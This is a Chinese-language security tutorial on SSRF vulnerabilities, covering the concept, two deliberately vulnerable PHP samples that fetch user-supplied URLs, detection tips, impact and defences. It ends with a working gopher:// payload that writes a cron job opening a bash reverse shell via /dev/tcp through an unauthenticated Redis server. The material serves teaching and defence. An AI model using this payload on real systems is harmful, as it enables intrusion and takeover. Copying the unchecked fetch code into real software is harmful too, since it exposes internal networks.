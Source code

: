 # SSRF漏洞

## 1、概述

SSRF（Server-site request forgery）服务端请求伪造。

> 网站未合理的对用户传入的URL进行过滤和判别时就有可能会存在SSRF漏洞

- 目标：内网

- 分类：Web通用漏洞

- 风险等级及危害：高危~严重

  > 利用SSRF攻击内网服务器（获取Webshell），或者利用SSRF漏洞获取大量敏感数据。

> Tips：
>
> 为了运维方便，内网通常比外网脆弱，所以SSRF漏洞的危害比较大。

## 2、漏洞原理

攻击者传入URL，外网服务器接受并转发给内网服务器。

可探测内网ip、域名、服务器端口等。

支持HTTP、HTTPS、FTP、FTPS、TFTP、SFTP、[Gopher](#Gopher)、SCP、Telnet、DICT、FILE、LDAP、LDAPS、IMAP、POP3、SMTP、RTSP等协议。

下面是一些存在SSRF漏洞的源码：

```php
<?php
$url = $_GET['url']; // 从用户获取URL参数

function get_page_title($url) {
    $content = file_get_contents($url); // 获取URL的内容
    preg_match('/<title>(.*?)<\/title>/ims', $content, $matches); // 提取页面标题
    return isset($matches[1]) ? $matches[1] : 'No title found';
}

$title = get_page_title($url); // 获取页面标题
echo "页面标题是： " . $title;
?>
```

```php
<?php
$url = $_GET['url']; // 从用户获取URL参数

function get_page_title($url) {
    $ch = curl_init();
    curl_setopt($ch, CURLOPT_URL, $url);
    curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
    $response = curl_exec($ch);
    curl_close($ch);
    
    preg_match('/<title>(.*?)<\/title>/ims', $response, $matches); // 提取页面标题
    return isset($matches[1]) ? $matches[1] : 'No title found';
}

$title = get_page_title($url); // 获取页面标题
echo "页面标题是： " . $title;
?>
```

## 3、漏洞挖掘

对于无回显的漏洞可以用盲打技术来挖掘。

> 挖掘SSRF时可以使用http://127.0.0.1、http://aaa.com、http://aaa.a（不存在的域名），观察其返回是否一致来判断是否允许请求外网。

对SSRF的利用，一般会先探测内网开放端口，然后利用Gopher协议直接发payload攻击像Redis未授权访问、Struts2远程命令执行等存在漏洞的服务器。

1. **访问内部系统资源：** 攻击者可能访问服务器内部的敏感文件、数据库或配置信息。
2. **绕过防火墙和访问控制：** 通过向内部网络发送请求，攻击者可以绕过防火墙或内部访问控制。
3. **攻击外部系统：** 利用服务器的信任关系向外部系统发起攻击，如DDoS攻击或利用其他应用程序的漏洞等。

## 4、漏洞防御

1. **输入验证和过滤：** 对用户输入的URL参数或远程请求进行严格的验证和过滤，仅允许必要的URL。
2. **白名单限制：** 限制服务器可以访问的远程资源范围，建立白名单并严格控制访问权限。
3. **使用内部代理访问：** 如果需要访问内部资源，可使用内部代理或专用通道，而不是直接从服务器端发起请求。
4. **最小权限原则：** 给予应用程序最小的权限以减少潜在的危害。
5. **安全配置：** 确保服务器和应用程序的安全配置，尽可能减少服务器对外部资源的信任。

## 5、注释

<a name="Gopher">Gopher是什么</a> ：他是Internet上的一个信息查找系统，应用在WWW出现之前，使用TCP70端口。在SSRF场景常使用Gopher协议发送Socket数据

```
gopher://127.0.0.1:6379/_*1%0d%0a$8%0d%0aflushall%0d%0a*3%0d%0a$3%0d%0aset%0
d%0a$1%0d%0a1%0d%0a$64%0d%0a%0d%0a%0a%0a*/1 * * * * bash -i >&
/dev/tcp/ip/port>&1%0a%0a%0a%0a%0a%0d%0a%0d%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0
d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0
a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%
0d%0a*1%0d%0a$4%0d%0asave%0d%0aquit%0d%0a
```